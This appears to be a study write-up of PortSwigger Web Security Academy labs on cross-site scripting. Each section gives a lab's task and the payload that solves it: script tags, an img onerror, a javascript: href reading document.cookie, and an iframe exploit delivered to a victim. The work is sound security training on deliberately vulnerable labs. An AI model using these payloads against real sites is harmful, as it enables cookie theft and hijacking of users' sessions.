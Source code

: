 ```yaml
---
title: BurpSuite Labs - Cross-site Scripting
author: amandaguglieri
draft: false
TableOfContents: true
tags: 
  - burpsuite
  - xss
---
```


# BurpSuite Labs - Cross-site Scripting


## Reflected XSS into HTML context with nothing encoded

### Enuntiation

This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the `alert` function.

### Solution

Copy and paste the following into the search box: 
 
```
<script>alert(1)</script>
```

Click Search.

## Stored XSS into HTML context with nothing encoded

### Enuntiation

This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the `alert` function when the blog post is viewed.

### Solution

Go to a post, and in the comment box enter:

```
<script>alert(1)</script>
```

Once you go back to the post, the script will be load.



## DOM XSS in document.write sink using source

### Enuntiation

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

### Solution

Use the searchbox lo look for some alphanumeric characters and see in the response where those characters have been reflected. In this case, it was in an image:

![Screenshot](../img/bupsuite-xss3.png)

Now, escape those characters. For instance with:

```
"><SCRIPT>alert(1)</sCripT>
```



## DOM XSS in innerHTML sink using source

### Enuntiation

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.

To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

### Solution

Reviewing my notes, if we're looking for a DOM based XSS a good proof of concept would be:
[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-js-context)

An extensive XSS payload list can be used from [Payloadbox](https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt) but It's hard to tell which one is a positive and for this lab you will end up with a list of 124 possible payloads.

To solve the lab, enter in the searchbox: 
```
#"><img src=/ onerror=alert(2)>
```



## DOM XSS in jQuery anchor href attribute sink using location.search source

### Enuntiation

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.

To solve this lab, make the "back" link alert `document.cookie`.

### Solution

In home page, pay attention to the link in " Submit feedback". In home is pointing to "/feedback?returnpath=/. 

![Screenshot](../img/bupsuite-xss5.png)

Edit source code and add to the parameter  `javascript:alert(document.cookie)` so that the final href attribute is:

```
/feedback?returnpath=/javascript:alert(document.cookie)
```

Click on Submit feedback.

## DOM XSS in jQuery selector sink using a hashchange event

### Enuntiation

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

### Solution

Copied from Burpsuite:

1.  Notice the vulnerable code on the home page using Burp or the browser's DevTools.
2.  From the lab banner, open the exploit server.
3.  In the **Body** section, add the following malicious `iframe`:
    
    `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
4.  Store the exploit, then click **View exploit** to confirm that the `print()` function is called.
5.  Go back to the exploit server and click **Deliver to victim** to solve the lab
